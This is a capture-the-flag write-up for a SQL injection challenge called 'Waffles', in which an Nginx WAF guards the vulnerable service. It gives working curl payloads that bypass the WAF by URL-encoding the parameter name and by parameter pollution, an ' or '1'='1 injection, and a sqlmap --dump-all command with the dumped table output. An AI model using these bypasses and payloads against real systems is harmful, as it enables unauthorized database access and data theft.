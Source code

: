 # Waffles

This was an SQL injection challenge but there is an Nginx WAF in front of the vulnerable service to make it more spicy.
The only url parameter to play with was `id`, but try to put something evil into that and Nginx immediately stops it:

```shell
> curl "https://waffles.secchallenge.crysys.hu/?id=1%20or%201"
<html>
<head><title>406 Not Acceptable</title></head>
<body bgcolor="white">
<center><h1>406 Not Acceptable</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```

There are multiple ways to circumvent this. The one I found was escaping the `id` parameter like this: 

```https://waffles.secchallenge.crysys.hu/?%69d=1```


Then with:
```shell
> curl "https://waffles.secchallenge.crysys.hu/?%69d=1'%20or%20'1'='1"
...
 <div class="row centered">
        <div class="input-group input-group-lg">
            <div class="alert alert-primary" role="alert">
                Freshly cut strawberries, cookie butter, Nutella, and our house made whipped cream on top of our golden Liege waffle.
            </div>
        </div>
    </div></div>
...
```
We got some `Freshly cut strawberries`. 

We can also try to pass in two `id` parameters instead of just one. Nginx validates the first one, but the service uses the second one. It's just like this: web servers and services implement ambigous parameters differently.

```shell
> curl "https://waffles.secchallenge.crysys.hu/?id=1&id=1'%20or%20'1'='1"
...
 <div class="row centered">
        <div class="input-group input-group-lg">
            <div class="alert alert-primary" role="alert">
                Freshly cut strawberries, cookie butter, Nutella, and our house made whipped cream on top of our golden Liege waffle.
            </div>
        </div>
    </div></div>
...
```

Now it's just a standard SQL injection challenge, solvable by hand or with tools like `sqlmap`.

```shell
> sqlmap -u 'https://waffles.secchallenge.crysys.hu/?id=1&id=1' -p 'id' -D REDACTED --dump-all
```

| id | order_id     | description                                                                                                                                 |
|----|--------------|---------------------------------------------------------------------------------------------------------------------------------------------|
| 1  | 12234        | Freshly cut strawberries, cookie butter, Nutella, and our house made whipped cream on top of our golden Liege waffle.                       |
| 2  | 235325       | Two deep fried crispy tenders with bacon crumble and maple syrup on top of our golden Liege waffle.                                         |
| 3  | 598412       | Tangy lemon curd, fresh blueberries, and our housemade whipped cream on top of our golden Liege waffle.                                     |
| 4  | REDACTED     | cd22{REDACTED}                                                                                                                              |
| 5  | 1337         | Fire toasted mini marshmallows, chocolate syrup, and cookie butter (aka liquid graham crackers) on top of our golden Liege waffle.          |
| 6  | 1682934      | Freshly sliced bananas, peanut butter, honey, and bacon crumble on top of our golden Liege waffle.                                          |
| 7  | 123172       | Waffle sandwich stuffed with blackforest ham, smoked turkey, melted white american cheese, and berry jam inside of our golden Liege waffle. |







